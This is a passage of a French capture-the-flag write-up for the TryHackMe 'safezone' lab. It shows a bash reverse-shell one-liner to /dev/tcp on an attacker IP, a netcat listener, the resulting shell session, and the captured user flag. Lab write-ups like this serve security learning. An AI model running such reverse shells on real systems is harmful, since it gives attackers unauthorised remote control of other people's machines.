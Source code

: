Oui ça fonctione il communique bien.  

![page1](./Task1-13.png)

On remarque que si on essai de faire passer un reverse shell, la page nous supprime des mots.  

```bash
files@safezone:~$ cd /tmp
files@safezone:/tmp$ echo "bash -c 'exec bash -i &>/dev/tcp/10.9.228.66/666 <&1'" >> shell.sh
files@safezone:/tmp$ chmod +x shell.sh
```

On crée un reverse shell.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
```

On écoute sur le port 666 pour avoir le shell.   

![page1](./Task1-14.png)

On exécute le reverse shell.   

**user flag**


```bash
tim@kali:~/Bureau/tryhackme/write-up$ nc -lvnp 666
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::666
Ncat: Listening on 0.0.0.0:666
Ncat: Connection from 10.10.220.78.
Ncat: Connection from 10.10.220.78:56608.
bash: cannot set terminal process group (546): Inappropriate ioctl for device
bash: no job control in this shell
id
uid=1000(yash) gid=1000(yash) groups=1000(yash),4(adm),24(cdrom),30(dip),46(plugdev),113(lpadmin),114(sambashare)
yash@safezone:/opt$ cd ~     
cd ~
yash@safezone:~$ cat flag.txt
cat flag.txt
THM{c296539f3286a899d8b3f6632fd62274}
```
